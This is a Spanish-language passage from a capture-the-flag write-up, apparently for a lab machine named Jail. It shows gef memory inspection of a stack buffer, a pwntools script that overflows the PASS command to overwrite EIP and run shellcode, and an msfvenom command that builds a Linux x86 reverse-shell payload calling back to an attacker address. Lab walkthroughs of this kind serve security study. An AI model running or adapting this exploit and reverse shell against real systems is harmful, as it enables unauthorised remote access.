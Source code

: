     - lo miramos en forma hexadecimal
    
        ```bash
        gef➤  x/16wx 0xffffd140
        #Output
        0xffffd140  0x41414141  0x41414141  0x41414141  0x41414141
        0xffffd150  0x41414141  0x41414141  0x41414141  0x42424242
        0xffffd160  0x43434343  0x43434343  0x00000100  0xf7ff4070
        0xffffd170  0x00000001  0xf7ffd590  0x00000000  0x414112db
        ``` 

Aqui vemos que la direccion `0xffffd140` apunta al principio del Buffer (la entrada del usuario). Esto significa
que si el **eip** apunta a la direccion `0xfffd140` sumada por 32 bytes (que serian las 28 A mas los 4 bytes del **eip**),
podriamos ejecutar el shellcode que queremos.

```{r, echo = FALSE, fig.cap="Buffer shell code position", out.width="90%"}
    knitr::include_graphics("images/Jail-Buffer-shellcode-pos.png")
```

Para esto nos creamos un script en python

```python
#!/usr/bin/python3

from pwn import *

context(os='linux', arch='i386')

p = remote("127.0.0.1", 7411)
# p = remote("10.10.10.34", 7411)


buf = b"\xdb\xc8\xd9\x74\x24\xf4\x5e\xbb\xc5\x90\x9f\x66\x33"
buf += b"\xc9\xb1\x12\x83\xee\xfc\x31\x5e\x13\x03\x9b\x83\x7d"
buf += b"\x93\x12\x7f\x76\xbf\x07\x3c\x2a\x2a\xa5\x4b\x2d\x1a"
buf += b"\xcf\x86\x2e\xc8\x56\xa9\x10\x22\xe8\x80\x17\x45\x80"
buf += b"\x18\xe2\xbb\x58\x75\xf0\xc3\x59\x3e\x7d\x22\xe9\x26"
buf += b"\x2e\xf4\x5a\x14\xcd\x7f\xbd\x97\x52\x2d\x55\x46\x7c"
buf += b"\xa1\xcd\xfe\xad\x6a\x6f\x96\x38\x97\x3d\x3b\xb2\xb9"
buf += b"\x71\xb0\x09\xb9"

before_eip = ("A" * 28).encode()
EIP = p32(0xffffd140+32)
after_eip = buf

p.recvuntil("OK Ready. Send USER command.")
p.sendline("USER admin")
p.recvuntil("OK Send PASS command.")
p.sendline("PASS ".encode() + before_eip + EIP + after_eip)
```

> [ ! ] NOTAS: el shellcode a sido creado con el comando `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -b "\x00\x0a" -f python`. Los badchars
aqui son los que ponemos siempre.
